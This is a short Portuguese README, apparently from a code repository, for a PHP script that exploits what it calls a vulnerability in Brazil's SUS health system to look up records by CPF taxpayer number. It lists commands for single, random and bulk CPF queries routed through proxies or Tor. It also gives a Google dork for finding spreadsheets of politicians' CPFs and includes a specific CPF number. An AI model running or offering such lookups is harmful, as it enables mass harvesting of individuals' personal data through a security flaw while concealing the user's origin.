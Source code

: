 <h1>Vulnerability Sending Sus</h1>

<h1>Dork:</h1> site:www1.tce.pr.gov.br cpf deputados/prefeitos ext:xls

<b><p>Pesquisa CPF único     --> php sus.php --cpf 13326724691 -s resultado.txt</p></b>
<b><p>Pesquisa CPF randômico --> php sus.php --cpf --dandom -s resultado.php</p></b>
<b><p>Pesquisa CPF arquivo   --> php sus.php -o arquivo_cpf.txt -s resultado.php</p></b>
<b><p>Pesquisa com proxy     --> php sus.php --cpf 13326724691 -s resultado.txt --proxy proxy:porta</p></b>
<b><p>php sus.php --cpf --random -s resultado.txt --proxy proxy:porta</p></b>
<b><p>php sus.php -o arquivo_cpf.txt -s resultado.txt --proxy proxy:porta</p></b>

<h1><p>Formato proxy:</h1></p>
<b><p>--proxy localhost:8118</p></b>
<b><p>--proxy socks5://matheus@localhost:9050</p></b>
<b><p>--proxy http://admin:1234@172.16.0.90:8080</p></b>

<h1>Depêndencias:</h1>
<b><b><p>#PHP Version         5.4.7</p></b>
<b><p>#php5-curl           LIB</p></b>
<b><p>#php5-cli            LIB</p></b>

<h1>Contato:</h1>
<p>http://twitter.com/@MatheusTDashh</p>
<p><img width="650" height="400" src="http://i.imgur.com/fuNul5h.jpg"></p>
